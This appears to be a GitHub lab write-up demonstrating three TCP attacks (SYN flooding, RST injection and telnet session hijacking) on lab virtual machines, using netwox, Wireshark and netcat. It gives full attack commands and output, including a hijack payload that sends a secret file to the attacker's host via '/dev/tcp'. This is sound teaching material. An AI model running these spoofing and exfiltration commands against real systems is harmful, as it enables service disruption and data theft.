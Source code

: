 # TCP Attacks

## Description

TCP is a protocol in the Transport Layer that works on top of the IP Layer. It provides a way for network nodes to communicate realiably and guarranties the order and the consistency of the delivered messages. To achieve this communication, both ends require to maintain a connection.

Although internet applications such as the email, file transfer, HTTP etc. rely on TCP, it has no security mechanism built into the protocol. The messages are not protected so an attacker can read them, manipulate and change them, insert fake data and hijack connections.

Here, we will show some of the methods that can be used to attack a TCP connection such as:

- SYN flooding
- Reset attack
- Session hijack

## Attacks

### SYN flooding
With SYN flood, the attacker tries to consume enough resources of the attacked machine in order to make it unresponsive to legitimate users.

When a new TCP connection is attempted the client and the server exchange 3 messages

1. Client: `SYN` 
2. Server: `SYN+ACK`
3. Client: `ACK`

<img src="https://camo.githubusercontent.com/f62aa97791bbf9a2d25eff8b882cb3438e8cd69c/68747470733a2f2f75706c6f61642e77696b696d656469612e6f72672f77696b6970656469612f636f6d6d6f6e732f7468756d622f392f39612f5463705f6e6f726d616c2e7376672f3139323070782d5463705f6e6f726d616c2e7376672e706e67" width="50%">

> Image taken from Wikipedia, https://en.wikipedia.org/wiki/SYN_flood

The first `SYN` informs the server that a client wants to establish a new connection. The server stores this request in a queue and the connection is called a *half-open connection*. When the third step (the client sending the `ACK` ) is completed the request is removed from this queue.

In this attack, the queue of the half-open connections is used to make the server unresponsive to new clients. The attacker sends a lot of `SYN` without replying `ACK`, filling the queue and binding resources of the server. When a legitimate client tries to connect to the server, the server will not be able to accept new `SYN` packets.

<img src="https://camo.githubusercontent.com/25195a8ac8a3c0ba79e75c743b2e2761f659f2f6/68747470733a2f2f75706c6f61642e77696b696d656469612e6f72672f77696b6970656469612f636f6d6d6f6e732f392f39342f5463705f73796e666c6f6f642e706e67" width="50%">

> Image taken from Wikipedia, https://en.wikipedia.org/wiki/SYN_flood

#### Preparation

In order to perform a SYN flooding attack, we created 2 virtual machines in VirtualBox, one for the server and the other for a client.
The role of the attacker is given to the host machine.

<img src="https://camo.githubusercontent.com/18a9109945b800ef925b0200b6f5a1f941ee8be4/68747470733a2f2f7370616e6167696f742e67722f6e6574776f726b732f766d732e706e67" width="50%">


To demonstrate this attack, we need to turn off the protection enabled by default (in Debian based OSes) using the command
```bash
sysctl -w net.ipv4.tcp_syncookies=0
```

To monitor the connections on the server, we will use a program called `netstat`, which is part of the `net-tools` package. Using the command `netstat -tna` we can see all the current active TCP connections on the machine.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:59831          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

As we can see, our machine is listening for SSH connections and the `ESTABLISHED` is an SSH connection from the host to the VM. We can also see that we don't have any `SYN_RECV` state. In normal situations there won't be many half-open connections.

To perform the attack we will use the `netwox` package which includes a tool that can launch a SYN flooding attack (tool number 76).

```
Title: Synflood
Usage: netwox 76 -i ip -p port [-s spoofip]
Parameters:
 -i|--dst-ip ip                 destination IP address {5.6.7.8}
 -p|--dst-port port             destination port number {80}
 -s|--spoofip spoofip           IP spoof initialization type {linkbraw}
 --help2                        display full help
Example: netwox 76 -i "5.6.7.8" -p "80"
Example: netwox 76 --dst-ip "5.6.7.8" --dst-port "80"
```

#### Attack

We want to target the SSH server running at the port 22 and the address of the machine is `10.2.1.16`. So, to perform the attack we need to execute

```bash
netwox 76 -i 10.2.1.16 -p 22 -s raw
```

After running this command, we execute again the `netstat` command on the server to see what is going on.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            142.65.213.19:8969      SYN_RECV
tcp        0      0 10.2.1.16:22            42.82.247.152:23656     SYN_RECV
tcp        0      0 10.2.1.16:22            21.74.47.152:40124      SYN_RECV
tcp        0      0 10.2.1.16:22            219.199.203.189:16719   SYN_RECV
tcp        0      0 10.2.1.16:22            25.30.122.237:58762     SYN_RECV
tcp        0      0 10.2.1.16:22            8.107.205.103:57390     SYN_RECV
tcp        0      0 10.2.1.16:22            218.215.44.80:61166     SYN_RECV
tcp        0      0 10.2.1.16:22            190.69.210.6:22369      SYN_RECV
tcp        0      0 10.2.1.16:22            5.244.215.162:14775     SYN_RECV
tcp        0      0 10.2.1.16:22            111.93.83.52:57612      SYN_RECV
tcp        0      0 10.2.1.16:22            164.243.64.220:8708     SYN_RECV
tcp        0      0 10.2.1.16:22            27.189.25.159:18512     SYN_RECV
tcp        0      0 10.2.1.16:22            66.77.120.164:23110     SYN_RECV
tcp        0      0 10.2.1.16:22            81.225.85.217:25157     SYN_RECV
tcp        0      0 10.2.1.16:22            118.36.20.88:37156      SYN_RECV
tcp        0      0 10.2.1.16:22            131.13.233.59:2758      SYN_RECV
tcp        0      0 10.2.1.16:22            145.136.144.151:65212   SYN_RECV
tcp        0      0 10.2.1.16:22            122.252.244.20:31515    SYN_RECV
tcp        0      0 10.2.1.16:22            5.49.25.115:48337       SYN_RECV
```

The list of `SYN_RECV` connections is larger but it would be unecessary to show it all. We can see that all these connections target the port 22 and the foreign address looks random. After leaving this tool running for a couple of seconds, the server will not be able to receive new TCP connections.

We can verify this by trying to open a new SSH from the client.

```bash
user@client:~$ ssh user@10.2.1.16
ssh: connect to host 10.2.1.16 port 22: Operation timed out
```

We need to specify here that this attack will only affect the port 22 and the SSH service. If telnet was running on port 23 it would not be affected because the each port has its own connection queue. Also, the server will continue operating normally, without any indication that an attack is happening.

### RST attack
There are two ways to terminate and established TCP connection between two hosts (let's call them A and B). The first way is done with A informing B that it wants to terminate the connection by sending a `FIN` packet and expects and `ACK` from B. If B wants also to terminate his side of the connection (because TCP connections are two one-way "pipes") can also send a `FIN` packet and after `ACK` is received the connection is considered closed.

The second way is for host A to send a `RST` packet. The `RST` packet will indicate to the receiving host that the connection should be terminated immediately. It is used in situations where there is no time to close the connection using the `FIN` packets and when there are errors detected in the connection.

Using the `RST` packet, an attacker can terminate an established connection without the consent of any of the legitimate users.

#### Preparation
We will use again 3 machines, one VM and the host as the legitimate users and the other VM as the attacker (see preparation in the previous attack).

#### Attack
Considering we know everything about the current connection between the server and the client (both source and destination IP and port number), we need to guess the sequence number because if it's not considered valid by the receiver our(the attacker's) packet will be discarded.
We will use wireshark to monitor the traffic between the two users and find the sequence number.

We will also use again the `netwox` program and the tool number 40 which can be used to send any TCP package.

```bash
user@client:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -l|--ip4-src ip                IP4 src {10.2.1.27}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 --help2                        display help for advanced parameters
 ```
 (We removed all the unused options from the parameters list because the list was huge)

By monitoring the connection in Wireshark, we can see the current sequence numbers, and we can use them to predict the next one. TCP has a certain "window" so we don't need to be extremely accurate.
Here are the connections to the server

```bash
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:52494          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

and here is the latest sequence number as captured by Wireshark (Wireshark shows by default the relative sequence number and we need to turn it off)

<img src="https://spanagiot.gr/networks/wireshark_seq.png" >

By inspecting the other packets we can see that the sequence number increases by 36 almost every time, so 1806966531+36=1806966567 will be our guess.

We launch the attack by running
```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.16 -o 52494 -p 22 -B -q 1806966567
```

If we guess correctly, we will see on the client connected to the server this message
```bash
user@server:~$ packet_write_wait: Connection to 10.2.1.16 port 22: Broken pipe
```
which indicates that our attack was successful!

### Session hijacking

A TCP hijack intercepts an established connection between two hosts. The attacker pretends to be one of the two hosts in the connection and this allows him to send packets that the other host will perceive as legitimate traffic.

Because the TCP protocol offers no security measures, it's easy for an attacker to perform this attack because a TCP connection consists of the IPs of the hosts and the ports they use and the traffic between them is unencrypted.

The only obstacle the attacker needs to overcome, is to correctly guess the sequence number of the packets so the crafted malicious ones won't be discarded as invalid.

#### Preparation
We will perform a TCP session hijack on an client that uses telnet to connect to a server. We selected telnet because the connection between the hosts is unencrypted, so it will be easier to demonstrate.

We will use again 3 machines, one VM and the host (10.2.1.5,10.2.12) as the legitimate users and the other VM as the attacker (10.2.1.13) (see preparation in the first attack).

#### Attack
The host (10.2.1.5) connects to the server using telnet. The goal of the attacker is to read the contents of a *top secret* file in the server by hijacking the already established connection.

In order to obtain the sequence number of the connection, we will use again Wireshark to monitor the traffic. 

![image](https://user-images.githubusercontent.com/7012176/73144039-ae87af80-40a9-11ea-8acf-2ce95ec55f54.png)

We can see here the sequence number of the packets originating from our client and by pressing a key we can see that the next sequence number is included in the legit packet, so we can easily create our own malicious packet.

![image](https://user-images.githubusercontent.com/7012176/73144057-ef7fc400-40a9-11ea-8e2d-3caaf56b2da8.png)

So, by intercepting the traffic, we managed to learn the five characteristics of the traffic we need to know. The source ip and port, the destination ip and port and the next sequence number.

Although the attacker can inject his own packets in the connection, cannot listen for the responses because they will arrive on the original client. To see the results of the executed command, we need to send the output to the machine of the attacker.

The program `netcat` allows us to create a simple TCP server on a specified port that we will use to listen for responses. We launch a server by running this command
```bash
nc -l -p 1940
```

Now, the attacker is listening for connections on port **1940** on all interfaces. We can verify this by connecting on that port using a different machine, but again we use `netcat`

```bash
user@client:~$ nc 10.2.1.13 1940
Hello from host
```

and on the attacker we will see the same as the output

```bash
user@attacker:~$ nc -l -p 1940
Hello from host
```

Also, we can use a special file in the `/dev` folder called tcp. If we redirect the output of a command to `/dev/tcp/10.2.1.13/1940`, the operating system will open a connection to IP 10.2.1.13 at the port 1940 and send the output of the command through this connection.

After we decided which command we want to execute, we need to convert it before sending it to a hex string. We can use Python to do this or any online converter. So, the command
```bash

cat top-secret.txt > /dev/tcp/10.2.1.13/1940

```

becomes **0a63617420746f702d7365637265742e747874203e202f6465762f7463702f31302e322e312e31332f313934300a0d** and this will be the data of the packet we will craft.

We will use again the `netwox` program and the tool number 40 which can be used to send any TCP package and we launch the attack by running this command

```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.12 -o 61775 -p 23 -H "0a636174202f686f6d652f757365722f746f702d7365637265742e747874203e202f6465762f7463702f31302e322e312e31332f313934300a0d" -q 3321793573 -r 688874018 -z -A -E 2047
```

With the `-z` `-r` flags we set the acknowledgement number from the last packet sent by the server, and we can obtain this, again, from Wireshark. The `-E` flag sets the window size. We added new lines at the beginning and at the end of the command with the hex number *0a* so we can make sure this attack works even if the client is in the middle of typing a command, and the *0d* at the end because telnet commands end at the *\r* character.

If we got the sequence and ack numbers correctly, after executing this command we will see that the `netcat` instance received the intended output

```bash 
user@client:~$ nc -l -p 1940 -v
listening on [any] 1940 ...
10.2.1.12: inverse host lookup failed: Unknown host
connect to [10.2.1.13] from (UNKNOWN) [10.2.1.12] 34452
DONT READ THIS
CONFIDENTIAL FILE
```

Our attack worked!

But not only that. Because we injected a forged packet and the client has no idea about it, it will send a packet that contains an **old** sequence number that the server will ignore so it won't acknowledge it. The client then will keep resending the data and the connection will end up in a loop and the server will disconnect the client after a while. This is what we will see on Wireshark

![image](https://user-images.githubusercontent.com/7012176/73145000-8f8e1b00-40b3-11ea-9968-d1833b570f83.png)
